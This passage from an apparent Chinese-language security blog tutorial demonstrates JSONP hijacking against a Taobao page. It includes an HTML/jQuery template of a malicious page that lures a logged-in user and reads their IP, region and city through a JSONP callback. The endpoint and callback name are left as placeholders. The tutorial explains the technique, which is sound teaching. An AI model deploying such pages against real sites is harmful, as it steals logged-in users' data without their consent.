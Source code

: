 3、这里以淘宝为例，我找到了一个没什么利用价值的页面，只是用来实现整个过程。

 ![18.png](https://raw.githubusercontent.com/59lx/userful_photo/master/myblog_photos/jsonp/18.png)



4、通过构造恶意代码，诱使登陆的用户访问，然后获得数据。（这里淘宝这个页面确实没做特殊的过滤和访问控制，可能是因为数据没什么利用价值）

```html
<html>

<head>
    <script src="jquery.min.js"></script>
    <meta charset="utf-8">
</head>

<body>
    <p id="content"></p>
    <script>
        function 【回调函数名】(data) {
            var p = $('p#content');
            p.html('ip : ' + data.data.ip + '<br>' + ' region：' + data.data.region + '<br>' + ' city: ' + data.data.city);
        }
        $(function() {
            $.ajax({
                type: 'GET',
                url: '接口名',
                dataType: 'jsonp',
                jsonp: 'callback', // 请求 php 的参数名
                jsonpCallback: '回调函数名' // 回调函数名 
            });
        });
    </script>
</body>

</html>
```

